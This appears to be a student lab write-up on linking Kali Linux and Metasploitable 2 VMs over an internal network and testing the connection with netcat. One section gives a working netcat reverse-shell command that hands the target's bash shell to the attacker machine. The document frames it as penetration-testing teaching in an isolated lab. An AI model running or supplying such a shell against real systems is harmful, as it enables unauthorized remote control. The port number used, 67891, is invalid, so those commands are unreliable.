 # Network Configuration and Netcat Communication

**Date: 2025-02-14**

## Exercise Overview
In this exercise, we set up a virtualized environment using VirtualBox, installed **Kali Linux** and **Metasploitable 2**, configured their network settings, and established communication between the two machines using **Netcat (nc)**.

---

## Step 1: Installing Virtual Machines
1. **Install VirtualBox**
2. **Download and install**:
   - **Kali Linux** (as the attacking machine)
   - **Metasploitable 2** (as the target machine)
3. **Start both VMs**

---

## Step 2: Identifying IP Addresses
Once both VMs were running, we attempted to retrieve their IP addresses using:

```bash
ip a    # Alternative command: ifconfig
```

However, both machines had **the same IP address**, which caused communication issues.

---

## Step 3: Configuring Network Settings
To resolve the IP conflict, we changed the **network adapters**:

1. Open **VirtualBox settings** for each VM
2. Set **Adapter 1** to `Internal Network`
3. Remove any `NAT` adapters

After doing this, the network interfaces had no IP addresses assigned, so we manually configured them.

**On Kali Linux:**
```bash
sudo ip addr add 10.0.2.10/24 dev eth0
sudo ip link set eth0 up
```

**On Metasploitable 2:**
```bash
sudo ip addr add 10.0.2.11/24 dev eth0
sudo ip link set eth0 up
```

Now, both machines were properly configured to communicate on the internal network.

---

## Step 4: Establishing Communication with Netcat
To verify connectivity, we used **Netcat (nc)**, a tool for reading and writing data across network connections.

### Steps:
1. **On Metasploitable 2 (listener mode):**
```bash
nc -l -p 67891
```
This command makes Metasploitable **listen** for incoming connections on port **67891**.

2. **On Kali Linux (client mode):**
```bash
nc 10.0.2.11 67891
```
This command initiates a connection from Kali to Metasploitable.

3. **Testing the connection:**
   - Typing a message on **Kali** should display it on **Metasploitable 2**, confirming successful communication.

---

## Understanding Netcat
**Netcat (nc)** is a versatile tool used for:
- Establishing TCP/UDP connections
- Transferring files
- Creating backdoors
- Port scanning

### Additional Use Cases
- **Checking if a port is open:**
```bash
nc -zv 10.0.2.11 80
```
- **Sending a file from Kali to Metasploitable:**
```bash
cat file.txt | nc 10.0.2.11 67891
```
- **Creating a Reverse Shell:**
```bash
# On attacker (Kali):
nc -lvp 4444

# On target (Metasploitable 2):
nc 10.0.2.10 4444 -e /bin/bash
```
This allows **Kali** to gain a shell on **Metasploitable 2**.

---

## Conclusion
This exercise demonstrated:
- How to manually assign IP addresses in an **Internal Network** setup
- How to verify connectivity using **Netcat**
- How **Netcat** can be used for communication, file transfer, and even reverse shells

By understanding these basics, we can explore more advanced penetration testing techniques using **Netcat** and other networking tools.